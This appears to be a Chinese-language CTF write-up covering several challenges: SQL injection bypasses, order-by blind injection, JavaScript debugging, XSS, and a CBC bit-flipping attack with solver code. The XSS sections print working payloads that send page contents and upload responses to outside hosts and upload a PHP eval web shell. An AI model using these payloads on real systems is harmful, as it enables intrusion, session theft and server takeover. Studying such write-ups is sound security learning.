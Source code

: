 ##simplesqli
key:union 查询判断了多于一列的内容就不返回内容
%00%0c%0b等等字符都会被删除。直接插入关键词就绕过了。。。。
/index.php?id=1 and substr((sel%00ect 1),1)这种语句跑一下就知道有没有replace了。。


##Temmo's Tiny Shope
key: 脑洞+orderby注入
这道题其实应该很简单的。。队友都说了无账号登录得到hint。。
(结果听说是条件竞争？看看大佬们的wp)
OK! Now I will give some hint: you can get flag by use `select flag from ce63e444b0d049e9c899c9a0336b3c59`
然后能够影响数据库的就只有orderby这个参数。
search 页面返回的是已买的东西的查询，所以只要通过不同的order就可以获得布尔值
当然like区分不了大小写，不过相关函数好像都被禁了。估计全是小写或者全是大写就行了。
if(condition, name, price)盲注即可
like枚举不行。有长度限制。。。不过用%flag%这种形式也可以枚举,不过就怕就重复的pattern
substr((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),1,1)like(0x00),price,name)
flag{r4ce_c0nditi0n_i5_excited}


##Kog
key: js调试
这种题就是正确输入和错误输入开两个窗口一起调。然后F10一步一步看变量变化就好。
感觉越调越熟练了，有空了可以再来调一下。
找到 第一个地方 if(!$13)把$13改成true， 第二个地方if((label|0)==12)直接改成if(0)
调好了还卡了一下。不知道怎么注入。结果是直接js代码里面写上
window.location.href='http://202.120.7.213:11181/api.php?id='+args["id"]+'&hash='+ar[0]+'&time='+ar[1]; 就行了
后面没有过滤了，直接union查询得到flag


##Complicated XSS
key:
注意一下xss过去的cookie要转义一下
<\/script>
+ -> %2b
" -> %22
' -> %27等等
这道题蛋疼的地方就是cookie会自动帮你转码。payload就不用转码了。。。
第二个坑点是admin.government.vip:8000的页面是用php渲染的，所以必须用onload，不然的话得到的html是渲染前的页面
第三个地方是path必须设置成/,domain设置成government.vip，admin浏览payload的时候是在/data/目录
第四个是window.xhr没了，怎么上传文件。

第一个payload：
<script>
document.cookie='username=<script>window.onload=function(){location.href="//119.29.109.138/"+document.body.innerHTML}<\/script>;domain=government.vip;Path=/';
location.href='//admin.government.vip:8000';
</script>

得到页面
<h1>Hello <script>window.onload=function(){location.href="//119.29.109.138/" document.body.innerHTML}</script></h1>
<p>Upload your shell</p>
<form action="/upload" method="post" enctype="multipart/form-data">
<p><input type="file" name="file"></p>
<p><input type="submit" value="upload">
</p></form> 

因为window.xhr被delete了，所以要想办法绕过。
看了几个大佬的wp。都是用iframe标签绕过就行
bendawang大佬的:
iframe onload=eval(String.fromCharCode(....))
中间是下面代码转码
var bdw=document.createElement("script");bdw.src="http://vps/evil.js";document.head.appendChild(bdw);
不过eval函数被删了，这里用iframe的this.contentWindow得到一个没有被删除eval的window对象，然后执行eval
melody大佬使用两个iframe，通过另外一个iframe /login里面的xhr来上传，本质上也是获得一个没有被删除函数的window对象
evil.js执行上传，这里用的是jquery。xhr的也贴一下备忘
jquery：
var t=document.getElementsByTagName('script')[0];
var ss=document.createElement('script');
ss.src='http://government.vip/static/jquery.min.js';
document.head.insertBefore(ss,t);
var body = "------WebKitFormBoundaryFikh4XTsUA3KuSES\r\n" +
  "Content-Disposition: form-data; name=\"233\"\r\n" +
  "\r\n" +
  "eyJzY3JlZW5faGVpZ2h0Ijo4MjYsInNjcmVlbl93aWR0aCI6MTQ0MH0\r\n" +
  "------WebKitFormBoundaryFikh4XTsUA3KuSES\r\n" +
  "Content-Disposition: form-data; name=\"source_flag\"\r\n" +
  "\r\n" +
  "0\r\n" +
  "------WebKitFormBoundaryFikh4XTsUA3KuSES\r\n" +
  "Content-Disposition: form-data; name=\"file\"; filename=\"shell.php\"\r\n" +
  "Content-Type: image/png\r\n" +
  "\r\n" +
  "GIF89a\x3c?php eval($_REQUEST[A]);?\x3e\x3c/script\x3e\r\n" +
  "------WebKitFormBoundaryFikh4XTsUA3KuSES--\r\n";
setTimeout('makeRequest()', 1000);//加载jquery
function makeRequest(){
	var settings={
		type:'POST',
		url:"http://admin.government.vip:8000/upload",
		data:body,
		success: function(data, textStatus){
			$.get('http://vps:12345/?abc=aaa+'+data);
		},
		headers:{
			"Access-Control-Allow-Headers":"X-Requested-With",
            "Content-Type": "multipart/form-data; boundary=---------------------------312061946619381",
            "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
            "Accept-Language":"zh-CN,zh;q=0.8"
		}
	};
	$.ajax(settings);
}
服务器监听12345端口,ajax不能跨域，所以不能写入日志。

xhr。。第一次见，用的blob对象执行send()
function submitRequest()
      {
        window.XMLHttpRequest = window.top.frames[1].XMLHttpRequest; // 重新定义 window.XMLHttpRequest，继承另一个 iframe 的 window.XMLHttpRequest.
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http://admin.government.vip:8000/upload", true);
        xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "de-de,de;q=0.8,en-us;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------256672629917035");
        xhr.withCredentials = "true";
        var body = "-----------------------------256672629917035\r\n" +
          "Content-Disposition: form-data; name=\"file\"; filename=\"test2.txt\"\r\n" +
          "Content-Type: text/plain\r\n" +
          "\r\n" +
          "test3\r\n" +
          "-----------------------------256672629917035--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        xhr.onreadystatechange = function() {
            if (xhr.readyState == XMLHttpRequest.DONE) {
                location.href="http://ip:port/"+escape(xhr.responseText);//把上传文件后的response给发回来。
            }
        }
        xhr.send(new Blob([aBody]));
}
submitRequest();

##simple xss
KEY:chrome解析\为/, 。可以代替.，link标签可以不闭合执行，script标签之类的都必须要闭合
? > : . / 被禁了
如key,chrome的特性
因为要访问flag.php，所以必定要执行代码。禁了这么多关键词，肯定要外部引入。所以考虑script或者link，embed之类的
link标签只有在chrome才能执行stylesheet以外的rel参数
因为这个网站是https.所以vps也必须是https（//的原因）
贴个别人的wp,我的ssl可能是假的。run.php连访问都没有。。

<link rel=prefetch href=\\61dclub。com\x
<link rel=import href=\\xss。lt

##Integrity
key:CBC翻转+CBC加密互不干涉可以随意去掉加密后的块改变明文内容
#!/usr/bin/python -u

from Crypto.Cipher import AES
from hashlib import md5
from Crypto import Random
from signal import alarm

BS = 16
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS)
unpad = lambda s : s[0:-ord(s[-1])]


class Scheme:
    def __init__(self,key):
        self.key = key

    def encrypt(self,raw):
        raw = pad(raw)
        raw = md5(raw).digest() + raw

        iv = Random.new().read(BS)
        cipher = AES.new(self.key,AES.MODE_CBC,iv)

        return ( iv + cipher.encrypt(raw) ).encode("hex")

    def decrypt(self,enc):
        enc = enc.decode("hex")

        iv = enc[:BS] ##前16位
        enc = enc[BS:] ##之后

        cipher = AES.new(self.key,AES.MODE_CBC,iv)
        blob = cipher.decrypt(enc)

        checksum = blob[:BS]
        data = blob[BS:]

        if md5(data).digest() == checksum:
            return unpad(data)
        else:
            return

key = Random.new().read(BS)
scheme = Scheme(key)

flag = open("flag",'r').readline()
alarm(30)

print "Welcome to 0CTF encryption service!"
while True:
    print "Please [r]egister or [l]ogin"
    cmd = raw_input()

    if not cmd:
        break

    if cmd[0]=='r' :
        name = raw_input().strip()

        if(len(name) > 32):
            print "username too long!"
            break
        if pad(name) == pad("admin"):
            print "You cannot use this name!"
            break
        else:
            print "Here is your secret:"
            print scheme.encrypt(name)


    elif cmd[0]=='l':
        data = raw_input().strip()
        name = scheme.decrypt(data)

        if name == "admin":
            print "Welcome admin!"
            print flag
        else:
            print "Welcome %s!" % name
    else:
        print "Unknown cmd!"
        break

题目源码如上
得到的
095a646712924d51a335baff2a5349ed
9872bdc79222f3580782da559ae7aba3
584baac5ddd60c2dd1136e63fa15c030
d0be37f9c90832aa902245ec8ffbfd10
这样一段加密，前32是iv,后面是注册的内容的pad后的MD5+pad的内容
考虑CBC翻转，CBC翻转的原理是
P[I] = Decrypt(C[I])^C[i-1]
i=1的时候c[i-1]=iv
所以一般情况下cbc翻转只能控制一段decrypt出来的明文
如果注册admis，然后想把admis转成admin的话，那就要翻转第二段密文的s为n，然后翻转第一段的md5为pad(admin)的MD5，这是不可能的
在这里看到每一段密文都是相互没有依赖关系的（cbc加密）所以注册一个
raw=pad(admin)+xxx
这样的账号
得到的密文就是

md5(pad(raw))+pad(admin)+(xxx+padcontent)的加密
     第一段               第二段          第三段

拿上面的密文来说，正好对应密文后面三段
所以login的时候只要把第三段去掉，decrypt出来的内容就是
md5(pad(raw)) + pad(admin)了，后面的xxx就没有了
然后就很简单了。把iv翻转一下让明文md5(pad(raw))变成md5(pad(admin))就行了
附上简单的代码

# coding=utf-8
# python 2.7

from hashlib import md5
N=16
pad = lambda s:s+(N-len(s)%N)*chr(N-len(s)%N)

input = '095a646712924d51a335baff2a5349ed9872bdc79222f3580782da559ae7aba3584baac5ddd60c2dd1136e63fa15c030d0be37f9c90832aa902245ec8ffbfd10'
aim = md5(pad('admin')).digest()
iv = input.decode('hex')[:16]
iv = list(iv)
origin_md5 = md5(pad(pad('admin')+'xpo')).digest()
answer = input.decode('hex')[32:48]

for i in range(16):
    iv[i] = chr(ord(origin_md5[i])^ord(aim[i])^ord(iv[i]))
output = (''.join(iv)).encode('hex') + input[32:96]
print output
 
